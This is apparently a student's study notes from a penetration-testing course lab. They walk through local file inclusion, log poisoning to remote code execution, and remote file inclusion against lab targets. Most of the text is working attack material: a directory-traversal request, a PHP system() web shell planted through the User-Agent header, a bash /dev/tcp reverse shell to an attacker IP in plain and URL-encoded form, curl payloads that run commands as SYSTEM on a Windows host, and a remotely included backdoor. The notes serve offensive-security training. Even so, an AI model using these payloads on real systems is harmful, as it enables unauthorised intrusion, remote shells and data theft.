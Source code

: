  **we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. _File inclusion_ vulnerabilities allow us to "include" a file in the application's running code. The exploitation of directory traversal and LFI vulnerabilities mainly differs when handling executable files or content.**

---

goal is to obtain _Remote Code Execution_ (RCE) via an LFI vulnerability can do this by Log Poisoning, works by modifying data we send to a web application so that the logs contain executable code

```
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```

This above shows us what user-agent accessed file last, so we can go ahead and modify our user-agent header to something executable so that it will be stored and then we can exploit by running it.

can now modify the User Agent to include the PHP code snippet, using burp send to page page=admin.php:

```
<?php echo system($_GET['cmd']); ?>
```

now to execute a command, send req here like so
```
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```

we can use an ampersand (&) as a delimiter. We'll also remove the User Agent line from the current Burp request to avoid poisoning the log again, which would lead to multiple executions of our command due to two PHP snippets included in the log.

![[Pasted image 20250316201548.png]]

Now if we try cmd= ls -la

The output in the _Response_ section shows that our input triggers an error. This happens due to the space between the command and the parameters, so lets use url encoding for the (%20) 
![[Pasted image 20250316201900.png]]

We have achieved command execution on the target system and can leverage this to get a reverse shell or add our SSH key to the **authorized_keys** file for a user

```
bash -c "bash -i >& /dev/tcp/192.168.45.230/4444 0>&1"
```
We'll once again encode the special characters with URL encoding.

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.230%2F4444%200%3E%261%22
```

before we run, need to start netcat listener on port 4444
```
nc -nvlp 4444
```


---

The PHP code snippet we used in this section for Linux also works on Windows

When we use Log Poisoning on Windows, we should understand that the log files are located in application-specific paths. For example, on a target running _XAMPP_,[10](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-10) the Apache logs can be found in **C:\xampp\apache\logs\**

Outside PHP, we can also leverage LFI and RFI vulnerabilities in other frameworks or server-side scripting languages including _Perl_,[11](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-11) _Active Server Pages Extended_,[12](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-12) _Active Server Pages_,[13](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-13) and _Java Server Pages_.[14](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/local-file-inclusion-lfi-44645#fn-local_id_574-14) Exploiting these kinds of vulnerabilities is very similar across these languages.

If we can write JSP code to a file using Log Poisoning and include this file with the LFI vulnerability, the code will be executed. The only difference between this example and the previous PHP demonstration is that the code snippet used for the Log Poisoning would be in a different language.

---

For the windows machine it was a little bit different and not sure if i was supposed to do it this way but i was not able to get cmds going in the url so i noticed in the logs if i ran 
```
curl -A "<?php system('whoami'); ?>" "http://192.168.170.193/meteor/index.php?page=admin.php" 
```

i was getting **NT AUTHORITY\SYSTEM** -which is root

then i ran dir saw a sus file and then ran 
```
curl -A "<?php system('type hopefullynobodyfindsthisfilebecauseitssupersecret.txt'); ?>" "http://192.168.170.193/meteor/index.php?page=admin.php"
```
.... gave me the flag but there was no reverse shell :D

---

To leverage an RFI vulnerability, we can use the _Python3_[3](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/remote-file-inclusion-rfi-44648#fn-local_id_49-3) _http.server_[4](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/remote-file-inclusion-rfi-44648#fn-local_id_49-4) module to start a web server on our Kali machine and serve the file we want to include remotely on the target system, example below sets the http.server to serve files from the dir we start it in:
```
──(wizardwalter㉿wizardwalter)-[/usr/share/webshells/php]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
After the web server is running with **/usr/share/webshells/php/** as its current directory,

```
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.230/simple-backdoor.php&cmd=ls"
```

output shows us that our simple backdoor got uploaded